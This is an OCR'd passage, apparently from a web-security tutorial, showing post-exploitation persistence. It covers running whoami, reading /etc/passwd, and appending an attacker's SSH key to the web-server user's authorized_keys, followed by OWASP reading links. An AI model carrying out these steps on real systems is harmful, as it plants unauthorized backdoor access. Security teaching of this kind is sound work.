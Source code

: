 
```
 whoami
```
2. Once the user is known find this users home folder by looking in /etc/passwd. We also want to
    make sure the user has a login shell. For the demo we looked for www-data in passwd because
    they were the resluting user from the previous whoami command.

```
 www-data:x:33:33:www-data:/var/www:/bin/bash #/var/www is the home folder for
this user and /bin/bash is login shell.
```
3. Check to see if .ssh folder is in the users home directory. If not make it

```
 ls -la /users/home/directory #check if .ssh exists
 mkdir /users/home/directory/.ssh #make .ssh in users home folder if it does not
exist
```
4. Echo ssh key to the authorized_keys file in the users .ssh folder.

```
 echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys
```
5. Verify key has been uploaded successfully.

```
 cat /users/home/directory/.ssh/authorized_keys
```
Once this process has be finished you should now be able to ssh on the target system as the user
who is running the web server. If prompted for a password something has gone wrong.

_Further Reading_

- https://www.owasp.org/index.php/Command_Injection
- https://www.owasp.org/index.php/Path_Traversal
- https://www.owasp.org/index.php/Unrestricted_File_Upload


